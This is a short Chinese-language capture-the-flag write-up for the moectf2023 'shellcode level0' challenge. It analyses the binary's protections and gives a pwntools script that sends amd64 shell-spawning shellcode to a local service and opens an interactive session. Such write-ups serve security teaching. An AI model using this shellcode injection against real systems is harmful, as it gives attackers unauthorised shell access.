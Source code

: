 ```yaml
---
title: moectf2023 - shellcode level0
date: 2023/9/23 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 使用shellcode利用64位程序漏洞，发送shellcode并获取交互。
---
```


## 文件分析

下载`shellcode_level0`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

程序中直接执行rbp-0x70的地址，且给了100B的空间，填一个shellcode即可

{% note warning fa-exclamation %}
在运行asm时加上参数`arch='amd64'`，否则缺省以i386架构产生，会报错
{% endnote %}

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33151)
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.

